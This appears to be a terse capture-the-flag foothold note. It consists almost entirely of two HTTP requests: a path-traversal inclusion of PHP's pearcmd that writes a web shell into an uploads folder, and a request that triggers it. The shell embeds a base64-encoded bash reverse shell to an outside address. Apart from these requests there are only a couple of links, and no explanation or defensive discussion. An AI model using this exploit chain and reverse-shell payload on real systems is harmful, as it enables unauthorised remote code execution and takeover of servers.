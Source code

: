 # Resource

foothold:

    GET /index.php?page=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTYuNC8xNDUxNCAwPiYxJw=="));?>+/var/www/itrc/uploads/shell.php

    GET /uploads/shell.php

py script from Flower

    https://flowerwitch.github.io/


![top](https://github.com/user-attachments/assets/10324960-fd24-4ef1-b5ea-1296f6d1430c)
